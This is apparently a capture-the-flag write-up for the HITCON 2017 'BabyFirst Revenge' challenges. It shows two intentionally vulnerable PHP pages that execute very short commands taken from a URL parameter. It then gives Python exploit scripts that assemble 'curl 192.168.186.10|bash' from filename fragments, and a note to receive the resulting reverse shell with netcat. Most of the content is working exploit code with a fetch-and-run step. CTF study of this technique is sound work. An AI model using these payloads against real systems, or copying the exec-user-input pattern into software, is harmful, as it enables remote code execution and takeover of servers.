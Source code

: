 # Challenge 1
```php 
 <?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);


```

# Challenge 2
```php 
 <?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

# Solution

EXP

```python
import requests
from time import sleep

payload = [
        # `ls -t>g`
        '>ls\\',
        'ls>_',
        '>\ \\',
        '>-t\\',
        '>\>g',
        'ls>>_',

        # `curl 192.168.186.10|bash`
        '>sh\ ',
        '>ba\\',
        '>\|\\',
        '>10\\',
        '>6.\\',
        '>18\\',
        '>8.\\',
        '>16\\',
        '>2.\\',
        '>19\\',
        '>\ \\',
        '>rl\\',
        '>cu\\',

        # exec
        'sh _',
        'sh g',
]

r = requests.get('http://192.168.186.10/60.php?reset=1')
for i in payload:
    r = requests.get('http://192.168.186.10/60.php?cmd=' + i)
    print i
    sleep(0.2)
```

用 nc -lvvp 12345 接收反弹shell



2

```python
import requests
import time
url = "http://192.168.186.10/602.php"

payload = [
        ">dir",
        ">sl",
        ">g\>",
        ">ht-",
        "*>v",
        ">rev",
        "*v>x", # ls -th>g
        ">sh",
        ">ba\\",
        ">\|\\",
        ">10\\",
        ">6.\\",
        ">18\\",
        ">8.\\",
        ">16\\",
        ">2.\\",
        ">19\\",
        ">\ \\",
        ">rl\\",
        ">cu\\",
        "sh x",
        "sh g"
        ]

r = requests.get(url+"?reset=1")
for i in payload:
    print i
    time.sleep(0.5)
    r = requests.get(url + "?cmd=" + i)
```



# Refference 

+ hitcon ctf 2017  BabyFirst Revenge
+ hitcon ctf 2017  BabyFirst Revenge2
+ https://mengsec.com/2018/10/31/HITCON-2017-babyfirst-revenge-v1-v2/
+ https://www.jianshu.com/p/a77e956d9941